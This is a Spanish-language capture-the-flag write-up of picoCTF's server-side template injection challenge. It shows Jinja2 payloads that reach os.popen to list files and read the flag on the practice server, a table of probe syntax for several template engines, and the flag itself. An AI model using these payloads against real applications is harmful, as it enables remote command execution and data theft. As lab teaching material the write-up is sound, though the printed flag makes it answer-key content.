 
## Descripción

*I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:64372/)!*


## Pistas

*Server Side Template Injection*

## Solución


```
http://rescued-float.picoctf.net:64372/

# Home

I built a cool website that lets you announce whatever you want!*

What do you want to announce:  {{7*7}}=Error ok

#Es lo que nos dice la descripcion 
http://rescued-float.picoctf.net:64372/announce
# 49= error


http://rescued-float.picoctf.net:64372/announce
#{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
# __pycache__ app.py flag requirements.txt

http://rescued-float.picoctf.net:64372/announce
# {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
## Notas Adicionales 

*SSTI: es cuando una app web permite enviar datos que son procesados en una plantilla, pero no tienen validaciones adecuadas, los motores de plantillas de utilizan para generar contenido dinámico, pero se puede inyectar código malicioso.*

*Motores de plantillas
Jinja2 (Python Flask/Django) : {{ 7*7 }}  
Freemarker (Java) : ${7*7}  
Velocity (Java) : #set($a = 7*7)${a}  
*Thymeleaf (Java) : ${7*7}  
*Twig (PHP Symfony) : {{ 7*7 }}  
*Smarty (PHP) : {$7*7}  
*Mako (Python): <% print 7*7 %>*

Insertamos en el campo de la pagina, {{5x9}}

despues de ver el resultado significa que si es vulnerable entonces, cargamos la plantilla
y luego con ls vemos cuales son los archivos que hay dentro:
self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘id’).read() }}
y luego un cat {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(' **cat flag** ').read() }}
y nos muestra la bandera.

## Referencias 
http://rescued-float.picoctf.net:64372/

https://medium.com/@Kamal_S/picoctf-web-exploitation-ssti1-e2363b1885a0